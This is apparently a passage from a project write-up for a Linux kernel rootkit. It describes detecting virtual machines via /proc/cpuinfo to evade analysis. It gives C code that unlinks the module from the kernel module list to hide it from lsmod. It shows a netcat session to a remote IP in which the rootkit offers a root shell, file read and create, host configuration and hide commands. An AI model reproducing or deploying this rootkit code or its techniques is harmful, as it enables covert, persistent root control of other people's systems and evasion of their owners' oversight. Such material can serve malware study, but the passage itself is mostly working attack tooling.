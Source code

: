 But I've added a check on the cpu information stored in the file [/proc/cpuinfo](https://www.thegeekdiary.com/proccpuinfo-file-explained/) that could give us some information on the cpu and sometimes tell us if we are in a VM or emulate (like with qemu). To do that i wrote a simple function that read information in this file and check if the string "QEMU" or "Hypervisor" is in it

As this project is a kernel drivers it also more hidden than a user-land program that will create process, but it's easy to list current loaded drivers by typing `sudo lsmod` in a terminal to get all loaded driver (included our rootkit when it's not hidden). But in order to hide our driver from the kernel's driver list (that is just a linked list of kernel module) we need to unlink our module from the list:

*hide.c:11*
```c
void unlink_module(struct module *mod)
{
    struct list_head *prev;
    struct list_head *next;

    prev = mod->list.prev;
    next = mod->list.next;

    // unlink our module
    prev->next = next;
    next->prev = prev;

    mod->list.prev = NULL;
    mod->list.next = NULL;

}
```

### Usage Exemple
```
nc 192.168.28.141 6969

Enter password to continue: ???????????
 
Welcome to chicken rootkit, best rootkit on the market because of chicken

   MENU  
| menu | Display menu
| create <file> | Create a file 
| read <file> | Read a file 
| cmd <cmd>     | Run a command in a root shell
| getconfig      | Get host config
| chicken <X> | Spawn X chicken on the pc
| unhide    | Unhide the kernel module
| hide          | Hide the kernel module
| exit     | Exit rk console 

(chikenRK) cmd id
uid=0(root) gid=0(root) groups=0(root)
(chikenRK) cmd pwd
/
(chikenRK) getconfig
start_time = 1684005525
version = 5.19.0-41-generic
hostname = kernel-dev
fake_random = h(;v@bT^>48auDf*"$KVQ}8_XhBD|1>
(chikenRK) hide
(chikenRK) chicken 10
(chikenRK) read /root/chicken5.quack
     __
   _/o \
  /_    |               | /
```